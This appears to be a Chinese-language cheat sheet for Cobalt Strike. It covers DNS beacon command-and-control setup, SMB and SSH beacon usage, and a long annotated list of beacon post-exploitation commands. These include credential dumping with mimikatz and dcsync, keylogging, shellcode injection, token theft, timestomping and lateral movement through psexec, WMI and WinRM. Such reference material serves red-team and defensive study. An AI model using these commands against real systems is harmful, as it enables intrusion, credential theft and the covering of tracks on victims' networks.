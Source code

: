   ##### DNS Beacon
	编辑域的区域文件
	为 Cobalt Strike 系统创建 A 记录
	创建指向 Cobalt Strike 系统的 FQDN 的 NS 记录
	创建 DNS A 记录并将其指向您的 Cobalt Strike 团队服务器。使用 DNS NS 记录将多个域或子域委托给您的 Cobalt Strike 团队服务器的 A 记录。
	nslookup jibberish.beacon polling.campaigns.domain.com
	nslookup jibberish.beacon campaign.domain.com

	Digital Ocean 上的 DNS 示例：

	NS  example.com                     directs to 10.10.10.10.            86400
	NS  polling.campaigns.example.com   directs to campaigns.example.com.	3600
	A	campaigns.example.com           directs to 10.10.10.10	            3600 

	>systemctl disable systemd-resolved
	>systemctl stop systemd-resolved
	>rm /etc/resolv.conf
	>echo "nameserver 8.8.8.8" >  /etc/resolv.conf
	>echo "nameserver 8.8.4.4" >>  /etc/resolv.conf
	配置：

	主机：campaigns.domain.com
	beacon：polling.campaigns.domain.com

  ##### SMB Beacon
  	link [host] [pipename]
	connect [host] [port]
	unlink [host] [PID]
	jump [exec] [host] [pipe]
	错误代码
| Error Code | Meaning              | Description                                        |
|------------|----------------------|----------------------------------------------------|
| 2          | File Not Found       | There is no beacon for you to link to              |
| 5          | Access is denied     | Invalid credentials or you don't have permission   |
| 53         | Bad Netpath          | You have no trust relationship with the target system. It may or may not be a beacon there. |

  ##### SSH Beacon
  	部署一个 beacon
	beacon> help ssh
	Use: ssh [target:port] [user] [pass]
	Spawn an SSH client and attempt to login to the specified target

	beacon> help ssh-key
	Use: ssh [target:port] [user] [/path/to/key.pem]
	Spawn an SSH client and attempt to login to the specified target

	beacon的命令
	upload                    上传
	download                  下载
	socks                     启动 SOCKS4a
	sudo                      使用sudo执行命令
	rportfwd                  设置一个反向端口转发
	shell                     通过shell执行命令

	argue                     进程参数欺骗
	blockdlls                  阻止子进程加载非Microsoft DLL
	browserpivot              注入受害者浏览器进程
	bypassuac                绕过UAC提升权限
	cancel                    取消正在进行的下载
	cd                        切换目录
	checkin                   强制让被控端回连一次
	clear                     清除beacon内部的任务队列
	connect                   Connect to a Beacon peer over TCP
	covertvpn                 部署Covert VPN客户端
	cp                        复制文件
	dcsync                    从DC中提取密码哈希
	desktop                   远程桌面(VNC)
	dllinject                   反射DLL注入进程
	dllload                    使用LoadLibrary将DLL加载到进程中
	downloads                列出正在进行的文件下载
	drives                     列出目标盘符
	elevate                    使用exp
	execute                   在目标上执行程序(无输出)
	execute-assembly         在目标上内存中执行本地.NET程序  execute-assembly [/path/to/script.exe] [arguments]
	exit                       终止beacon会话
	getprivs                   Enable system privileges on current token
	getsystem                 尝试获取SYSTEM权限
	getuid                     获取用户ID
	hashdump                  转储密码哈希值
	help                       帮助
	inject                      在注入进程生成会话
	jobkill                     结束一个后台任务
	jobs                       列出后台任务
	kerberos_ccache_use       从ccache文件中导入票据应用于此会话
	kerberos_ticket_purge     清除当前会话的票据
	kerberos_ticket_use       Apply 从ticket文件中导入票据应用于此会话
	keylogger                 键盘记录
	kill                      结束进程
	link                      Connect to a Beacon peer over a named pipe
	logonpasswords            使用mimikatz转储凭据和哈希值
	ls                        列出文件
	make_token                创建令牌以传递凭据
	mimikatz                  运行mimikatz
	mkdir                     创建一个目录
	mode dns                  使用DNS A作为通信通道(仅限DNS beacon)
	mode dns-txt              使用DNS TXT作为通信通道(仅限D beacon)
	mode dns6                 使用DNS AAAA作为通信通道(仅限DNS beacon)
	mode http                 使用HTTP作为通信通道
	mv                        移动文件
	net                       net命令
	note                      备注       
	portscan                  进行端口扫描
	powerpick                 通过Unmanaged PowerShell执行命令
	powershell                通过powershell.exe执行命令
	powershell-import         导入powershell脚本 powershell-import [/path/to/script.ps1]
	ppid                      Set parent PID for spawned post-ex jobs
	ps                        显示进程列表
	psexec                    Use a service to spawn a session on a host
	psexec_psh                Use PowerShell to spawn a session on a host
	psinject                  在特定进程中执行PowerShell命令
	pth                       使用Mimikatz进行传递哈希
	pwd                       当前目录位置
	reg                       Query the registry
	rev2self                  恢复原始令牌
	rm                        删除文件或文件夹
	run                       在目标上执行程序(返回输出)
	runas                     以其他用户权限执行程序
	runasadmin                在高权限下执行程序
	runu                      Execute a program under another PID
	screenshot                屏幕截图
	setenv                    设置环境变量
	shinject                  将shellcode注入进程
	shspawn                   启动一个进程并将shellcode注入其中
	sleep                     设置睡眠延迟时间
	socks stop                停止SOCKS4
	spawn                     派生新的会话 
	spawnas                   Spawn a session as another user
	spawnto                   指明在派生会话时将shellcode注入到具体的进程
	spawnu                    选择一个临时的父进程，然后派生一个子进程，这个子进程同样可以用spawnto指定
	ssh                       使用ssh连接远程主机
	ssh-key                   使用密钥连接远程主机
	steal_token               从进程中窃取令牌
	timestomp                 将一个文件的时间戳应用到另一个文件
	unlink                    Disconnect from parent Beacon
	wdigest                   使用mimikatz转储明文凭据
	winrm                     使用WinRM横向渗透
	wmi                       使用WMI横向渗透
	执行命令，在beacon模式下键入shell+命令
![image](img/221.png)

	>sleep 0 交互模式，立刻执行命令
	注入DLL到某个进程
	>dllload [pid] [c:\path\to\file.dll] DLL需在目标上
	>kerberos_ticket_purge 清除票据
	>kerberos_ccache_use	[/path/to/file.ccache]  从ccache文件导入票据
	>kerberos_ticket_use [/path/to/file.ccache] 从ticket文件导入票据
	>kill pid 结束进程
	>timestomp [fileA]	[fileB] 修改文件时间戳
	>getuid	 获取当前用户
	>steal_token [pid] 窃取进程ID
	>rev2self 恢复原始令牌
	>powershell-import	[/path/to/local/script.ps1] 导入PS模块 
	>shinject [pid] <x86|x64> [/path/to/my.bin] 向进程注入shellcode
	>socks	port在指定端口开启代理
	>socks stop停止代理
	>rportfwd [bind port]	[forward host]	[forward port]开启端口转发